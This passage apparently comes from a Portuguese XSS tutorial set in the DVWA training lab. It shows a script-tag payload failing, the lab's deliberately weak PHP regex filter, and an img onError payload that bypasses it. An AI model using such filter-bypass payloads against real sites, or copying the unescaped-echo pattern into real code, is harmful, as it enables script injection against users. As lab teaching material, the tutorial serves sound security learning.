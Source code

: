  **(Para obter o mesmo ambiente, caso utilizando o `dvwa`, basta elevar o nível para *Difícil* )**.
 
```javascript
    <script>alert("Eliabe")</script>
```

![enter image description here](/assets/images/wtf/Gkqh20i.png)

Nosso código utilizado previamente não funcionou, vejamos a verificação por baixo dos panos.

```php
<?php      
    header ("X-XSS-Protection: 0");       
    // Is there any input?  
    if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {  
    // Get input  
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );  
    // Feedback for end user  
    echo "<pre>Hello ${name}</pre>";  
    }  
    ?>
```

Na source, podemos visualizar a função **preg-replace** do PHP sendo utilizada para realizar um regex e desabilitar a execução de scripts. Nosso código anterior não funcionava, pois ele está substituindo os caracteres inválidos por um espaço em branco.

```php
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); 
```

Neste caso, temos que apelar para outra função que nos retorne uma execução de código na aplicação. Para fins de exemplo, vejamos como o **onError** lida com códigos.

```html
<img src="pwn" onError=alert("1ml33t")
```

A saída:

![bypass](/assets/images/wtf/gUArsoK.png)
